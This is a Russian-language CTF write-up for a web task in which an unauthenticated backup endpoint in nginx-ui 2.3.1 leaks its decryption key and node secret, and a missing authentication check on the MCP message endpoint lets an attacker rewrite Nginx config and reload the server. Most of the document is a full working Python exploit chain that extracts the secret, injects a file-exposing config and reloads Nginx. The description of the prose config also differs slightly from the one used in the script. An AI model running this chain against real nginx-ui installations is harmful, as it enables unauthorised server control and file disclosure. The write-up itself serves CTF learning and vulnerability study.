

# [web] MCPocalypse

> **Категория:** `web`  
> **CTF:** KubSTU CTF 2026 Spring

## Описание

«CapyTech Solutions» утверждает, что их AI понимает команды с 
полуслова. Вы можете просто сказать: «Перезапусти Nginx!», и сервер 
послушается.

# Writeup

## Введение

Данный райтап описывает решение CTF-задания "Capy CTF: The Secret Node", основанного на цепочке из двух критических уязвимостей в `nginx-ui` версии 2.3.1. Цель задания - получить флаг, расположенный в файле `/flag.txt` внутри контейнера `nginx_ui`, используя эти уязвимости для достижения удаленного выполнения кода (RCE) или раскрытия файлов.

## Обзор уязвимостей

CTF-задание эксплуатирует следующую цепочку уязвимостей:

### 1. CVE-2026-27944: Неаутентифицированный бэкап и раскрытие ключа

Уязвимость CVE-2026-27944 позволяет неаутентифицированному пользователю получить доступ к эндпоинту `/api/backup`. Этот эндпоинт возвращает зашифрованный архив, содержащий полную резервную копию установки `nginx-ui`, включая файл `app.ini`. Критическая особенность заключается в том, что ключ и вектор инициализации (IV) для расшифровки AES-256-CBC передаются в открытом виде в заголовке ответа `X-Backup-Security`.

Расшифровав архив с помощью полученных ключей, можно извлечь файл `app.ini`, который содержит `Node.Secret` - секрет, необходимый для эксплуатации следующей уязвимости.

по дробнее тут <https://github.com/advisories/GHSA-g9w5-qffc-6762>

### 2. CVE-2026-33032 ("MCPwn"): Неаутентифицированный обработчик сообщений MCP

Уязвимость CVE-2026-33032, также известная как "MCPwn", связана с отсутствием проверки аутентификации (`AuthRequired()` middleware) в эндпоинте `/mcp_message`. `nginx-ui` использует протокол MCP (Model Context Protocol) для управления Nginx, предоставляя 12 привилегированных инструментов управления.

Используя `Node.Secret`, полученный на первом этапе, злоумышленник может установить неаутентифицированную SSE-сессию с `/mcp` для получения `sessionId`. Затем, отправляя POST-запросы на `/mcp_message` с этим `sessionId`, можно вызывать любые привилегированные инструменты MCP без какой-либо аутентификации. Это позволяет перезаписывать конфигурационные файлы Nginx (`nginx_config_modify`) и перезагружать сервер (`reload_nginx`), что приводит к удаленному выполнению кода или раскрытию файлов.

## Цепочка уязвимостей

### CVE-2026-27944 — Неаутентифицированная конечная точка резервного копирования + раскрытие ключа

`GET /api/backup` не требует аутентификации. Эта конечная точка возвращает полную зашифрованную резервную копию установки nginx-ui — включая `app.ini` — и отправляет ключ дешифрования AES-256-CBC и вектор инициализации (IV) **в открытом виде** в заголовке ответа:

```
X-Backup-Security: <base64_key>:<base64_iv>
```

```go
r.GET("/backup", CreateBackup)   // ❌ нет middleware
r.POST("/restore", middleware.EncryptedForm(), RestoreBackup)
```

Из исходного кода (`api/backup/router.go`):

Расшифровка резервной копии даёт `app.ini`, который содержит `[node] Secret`, необходимый для шага 2.

### CVE-2026-33032 «MCPwn» — Неаутентифицированный обработчик MCP сообщений

В nginx-ui v2.3.x был добавлен интерфейс **Model Context Protocol (MCP)**, предоставляющий 12 инструментов управления nginx. Ошибка заключается в одном пропущенном вызове middleware в `mcp/router.go`:

```go
r.Any("/mcp",         middleware.IPWhiteList(), middleware.AuthRequired(), ...)
r.Any("/mcp_message", middleware.IPWhiteList(), ...)   // ❌ ПРОПУЩЕН AuthRequired()
```

### Как работает связка

---

Имея `sessionId`, полученный с помощью секрета узла, злоумышленник может отправить POST-запрос на `/mcp_message` без каких-либо учётных данных и вызвать любой привилегированный инструмент — включая `nginx_config_modify` и `reload_nginx`.

---

 

## Решение

### Этап 1: Извлечение `Node.Secret` (CVE-2026-27944)

---

Первый шаг - получить `Node.Secret` из `app.ini`. Это достигается путем отправки неаутентифицированного GET-запроса к `/api/backup` на `nginx-ui` (порт 9000). В заголовке `X-Backup-Security` ответа будут содержаться base64-кодированные AES-ключ и IV. Затем необходимо:

1. Декодировать ключ и IV из base64.
2. Расшифровать полученный зашифрованный ZIP-архив, используя AES в режиме CBC с полученными ключом и IV.
3. Извлечь файл `app.ini` из расшифрованного архива.
4. Прочитать значение `Secret` из секции `[node]` файла `app.ini`.

В данном CTF `Node.Secret` будет 

подробнее про уязвимость в <https://github.com/advisories/GHSA-g9w5-qffc-6762>

но есть готоывый эксплоит для получения `Node.Secret`  <https://github.com/Skynoxk/CVE-2026-27944>

```javascript
[*] CVE-2026-27944 — downloading backup from Nginx-UI (no auth)
[+] AES key+IV from header: 7jeJX3Ph8q4/IpdY...:nuPm7h3U...
[+] Node secret extracted: sicret-ctf-capy-key-2026
```

### Этап 2: Модификация конфигурации Nginx и получение флага (CVE-2026-33032)

Класс `MCPSession` и функция `mcp_swap` реализуют этот этап:

1. **Установление MCP-сессии**: Создается объект `MCPSession` с `base_url` и `node_secret`. Метод `connect()` отправляет `GET` запрос к `f"{self.base_url}/mcp"` с параметром `node_secret`. В ответном SSE-потоке парсится `sessionId`.

   ```python
   self._sse_resp = requests.get(
       f"{self.base_url}/mcp",
       params={"node_secret": self.node_secret},
       stream=True, timeout=5,
   )
   # ... парсинг sessionId из SSE-потока
   ```
2. **Модификация конфигурации Nginx**: Метод `call_tool` используется для отправки `POST` запроса к `f"{self.base_url}/mcp_message"` с полученным `sessionId`. В качестве `payload` передается JSON-RPC запрос, вызывающий метод `nginx_config_modify`.

   ```python
   # ... внутри mcp_swap
   r = sess.call_tool(
       "nginx_config_modify",
       {"relative_path": config_file, "content": new_content, "sync_overwrite": False},
       msg_id=2,
   )
   ```

   **Пейлоад для** `nginx_config_modify`: `new_content` - это строка, содержащая новую конфигурацию Nginx. Для получения флага используется следующий `FLAG_CONFIG`:

   ```nginx
   server {
       listen 80;
       server_name localhost;
   
       location / {
           proxy_pass http://webapp:80;
           proxy_set_header Host $host;
           proxy_set_header X-Real-IP $remote_addr;
           proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
           proxy_set_header X-Forwarded-Proto $scheme;
       }
   
       location /flag {
           alias /flag.txt;
           internal;
       }
   
       location /get_flag {
           rewrite ^ /flag break;
       }
   }
   ```
   - `location /flag { alias /flag.txt; internal; }`: Этот блок указывает Nginx, что при запросе `/flag` нужно отдать содержимое файла `/flag.txt`. Директива `internal` делает этот `location` доступным только для внутренних редиректов или субзапросов внутри Nginx, предотвращая прямой доступ извне.
   - `location /get_flag { rewrite ^ /flag break; }`: Этот блок создает публично доступный эндпоинт `/get_flag`. Директива `rewrite ^ /flag break;` переписывает URL `/get_flag` на `/flag` и останавливает дальнейшую обработку правил перезаписи. Поскольку `/flag` является `internal`, Nginx внутренне обрабатывает его, отдавая содержимое `/flag.txt` через публичный эндпоинт `/get_flag`.
3. **Перезагрузка Nginx**: После изменения конфигурации, вызывается метод `reload_nginx` через `call_tool` для применения изменений. Это критически важно, так как Nginx не применяет изменения конфигурации до перезагрузки.

   ```python
   r = sess.call_tool("reload_nginx", {}, msg_id=3)
   ```
4. **Получение флага**: После успешной перезагрузки Nginx, скрипт отправляет `GET` запрос к `f"{webapp_url}/get_flag"` (например, `http://localhost:8080/get_flag`). Поскольку `webapp` теперь обслуживает модифицированную конфигурацию Nginx, этот запрос вернет содержимое `/flag.txt`.

   ```python
   flag_resp = requests.get(f"{webapp_url}/get_flag", timeout=10)
   flag = flag_resp.text.strip()
   ```

```javascript
import argparse
import base64
import configparser
import io
import json
import re
import sys
import threading
import time
import zipfile

import requests
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# ── Config templates ──────────────────────────────────────────────────────────

# Original default.conf content (reconstructed based on analysis)
ORIGINAL_CONFIG = """\
server {
    listen 80;
    server_name localhost;

    location / {
        proxy_pass http://webapp:80;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
"""

# Malicious config to expose the flag
FLAG_CONFIG = """\
server {
    listen 80;
    server_name localhost;

    location / {
        proxy_pass http://webapp:80;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }

    # Public endpoint to read the flag
    location /get_flag {
        alias /flag.txt;
    }
}
"""

# CVE-2026-27944: unauthenticated backup → node secret

def extract_node_secret(base_url: str) -> str:
    """
    GET /api/backup with no credentials.
    Decrypt the response using the key from X-Backup-Security header.
    Return the [node] Secret from app.ini inside the archive.
    """
    print("[*] CVE-2026-27944 — downloading backup from Nginx-UI (no auth)")
    resp = requests.get(f"{base_url}/api/backup", timeout=30)
    resp.raise_for_status()

    security_header = resp.headers.get("X-Backup-Security", "")
    if not security_header:
        raise RuntimeError("X-Backup-Security header missing — is this v2.3.1?")

    b64_key, b64_iv = security_header.split(":")
    key = base64.b64decode(b64_key)
    iv  = base64.b64decode(b64_iv)
    print(f"[+] AES key+IV from header: {b64_key[:16]}...:{b64_iv[:8]}...")

    # Outer zip: contains nginx-ui.zip (encrypted) + nginx.zip (encrypted) + hash_info.txt
    outer = zipfile.ZipFile(io.BytesIO(resp.content))

    nginx_ui_enc = outer.read("nginx-ui.zip")
    cipher = AES.new(key, AES.MODE_CBC, iv)
    nginx_ui_zip = unpad(cipher.decrypt(nginx_ui_enc), AES.block_size)

    # Inner zip: nginx-ui config directory
    inner = zipfile.ZipFile(io.BytesIO(nginx_ui_zip))
    app_ini_path = next(n for n in inner.namelist() if n.endswith("app.ini"))
    app_ini_data = inner.read(app_ini_path).decode()

    cfg = configparser.RawConfigParser()
    cfg.read_string(app_ini_data)
    secret = cfg.get("node", "Secret", fallback="").strip()
    if not secret:
        raise RuntimeError("Could not find [node] Secret in extracted app.ini")

    print(f"[+] Node secret extracted: {secret}")
    return secret


# CVE-2026-33032: unauthenticated MCP → nginx config overwrite

class MCPSession:
    """Persistent SSE connection for unauthenticated MCP tool calls."""

    def __init__(self, base_url: str, node_secret: str):
        self.base_url = base_url.rstrip("/")
        self.node_secret = node_secret
        self.session_id: str | None = None
        self._sse_resp = None
        self._iter = None
        self._thread: threading.Thread | None = None
        self.messages: list[dict] = []
        self._lock = threading.Lock()

    def connect(self) -> None:
        self._sse_resp = requests.get(
            f"{self.base_url}/mcp",
            params={"node_secret": self.node_secret},
            stream=True, timeout=5,
        )
        self._sse_resp.raise_for_status()
        self._iter = self._sse_resp.iter_lines()
        for raw in self._iter:
            line = raw.decode() if isinstance(raw, bytes) else raw
            if line.startswith("data:"):
                m = re.search(r"sessionId=([a-zA-Z0-9_-]+)", line[5:])
                if m:
                    self.session_id = m.group(1)
                    break
        if not self.session_id:
            raise RuntimeError("No sessionId — wrong node_secret?")
        self._thread = threading.Thread(target=self._drain, daemon=True)
        self._thread.start()

    def _drain(self) -> None:
        try:
            for raw in self._iter:
                line = raw.decode() if isinstance(raw, bytes) else raw
                if line.startswith("data:"):
                    try:
                        with self._lock:
                            self.messages.append(json.loads(line[5:].strip()))
                    except json.JSONDecodeError:
                        pass
        except Exception:
            pass

    def _post(self, payload: dict) -> None:
        requests.post(
            f"{self.base_url}/mcp_message",
            params={"sessionId": self.session_id},
            json=payload, timeout=10,
        )

    def initialize(self) -> None:
        self._post({
            "jsonrpc": "2.0", "id": 0, "method": "initialize",
            "params": {
                "protocolVersion": "2024-11-05", "capabilities": {},
                "clientInfo": {"name": "MCPwn-PoC", "version": "1.0"},
            },
        })
        self._wait_for(0)
        self._post({"jsonrpc": "2.0", "method": "notifications/initialized", "params": {}})
        time.sleep(0.3)

    def call_tool(self, tool: str, arguments: dict, msg_id: int, wait: float = 5.0) -> dict | None:
        self._post({
            "jsonrpc": "2.0", "id": msg_id, "method": "tools/call",
            "params": {"name": tool, "arguments": arguments},
        })
        return self._wait_for(msg_id, wait)

    def _wait_for(self, msg_id: int, timeout: float = 5.0) -> dict | None:
        deadline = time.time() + timeout
        while time.time() < deadline:
            with self._lock:
                for m in reversed(self.messages):
                    if m.get("id") == msg_id:
                        return m
            time.sleep(0.1)
        return None

    def close(self) -> None:
        if self._sse_resp:
            self._sse_resp.close()


def mcp_swap(base_url: str, node_secret: str, config_file: str, new_content: str) -> None:
    """Open an unauthenticated MCP session and overwrite an nginx config file."""
    sess = MCPSession(base_url, node_secret)
    print("[*] CVE-2026-33032 — opening unauthenticated MCP session (GET /mcp)")
    sess.connect()
    print(f"[+] sessionId: {sess.session_id}")
    sess.initialize()

    print(f"[*] Overwriting {config_file} via POST /mcp_message (no auth)")
    r = sess.call_tool(
        "nginx_config_modify",
        {"relative_path": config_file, "content": new_content, "sync_overwrite": False},
        msg_id=2,
    )
    if r and "error" in r:
        print(f"[!] modify failed: {r['error']['message']}")
        sess.close()
        sys.exit(1)
    print("[+] Nginx config modified.")

    print("[*] Reloading nginx via POST /mcp_message (no auth)")
    r = sess.call_tool("reload_nginx", {}, msg_id=3)
    if r and "error" in r:
        print(f"[!] reload error: {r['error']['message']}")
    else:
        print("[+] Nginx reloaded — config is live")

    sess.close()


def get_flag(nginx_ui_url: str, landing_url: str, config_file: str) -> None:
    print(f"\n{'='*62}")
    print(f"  Capy CTF Exploit Chain (Architecture Fixed)")
    print(f"  Target Nginx-UI (Admin) : {nginx_ui_url}")
    print(f"  Target Landing (Public) : {landing_url}")
    print(f"{'='*62}\n")

    node_secret = extract_node_secret(nginx_ui_url)
    print()

    print("[*] Injecting flag exposure into Landing's Nginx config...")
    mcp_swap(nginx_ui_url, node_secret, config_file, FLAG_CONFIG)
    time.sleep(2) # Give Nginx a moment to reload

    print("[*] Attempting to retrieve flag from Public Landing URL...")
    try:
        # Access the public-facing Nginx (port 8080) to get the flag
        flag_resp = requests.get(f"{landing_url}/get_flag", timeout=10)
        flag_resp.raise_for_status()
        flag = flag_resp.text.strip()
        if "CAPY{" in flag:
            print(f"\n[+] FLAG FOUND: {flag}")
        else:
            print(f"[!] Could not retrieve flag. Response: {flag}")
    except requests.exceptions.RequestException as e:
        print(f"[!] Failed to retrieve flag: {e}")

    print("\n[*] Resetting Nginx config to original state...")
    mcp_swap(nginx_ui_url, node_secret, config_file, ORIGINAL_CONFIG)
    print("[+] Exploit complete. Nginx config reset.")


def main() -> None:
    parser = argparse.ArgumentParser(
        description="Exploit script for Capy CTF: The Secret Node"
    )
    parser.add_argument("--nginx-ui-url", default="http://localhost:9000",
                        help="nginx-ui admin panel URL (default: http://localhost:9000)")
    parser.add_argument("--landing-url", default="http://localhost:8080",
                        help="Public Capy Landing URL (default: http://localhost:8080)")
    parser.add_argument("--config", default="default.conf",
                        help="nginx config file to overwrite (default: default.conf)")
    args = parser.parse_args()

    try:
        get_flag(args.nginx_ui_url, args.landing_url, args.config)
    except requests.exceptions.ConnectionError:
        print(f"[!] Cannot connect. Is the lab running?", file=sys.stderr)
        sys.exit(1)
    except Exception as exc:
        print(f"[!] An error occurred: {exc}", file=sys.stderr)
        sys.exit(1)


if __name__ == "__main__":
    main()
```


Флаг: `KubSTU(mcp_h4s_n0_4uth_4nd_1_l0v3_1t)`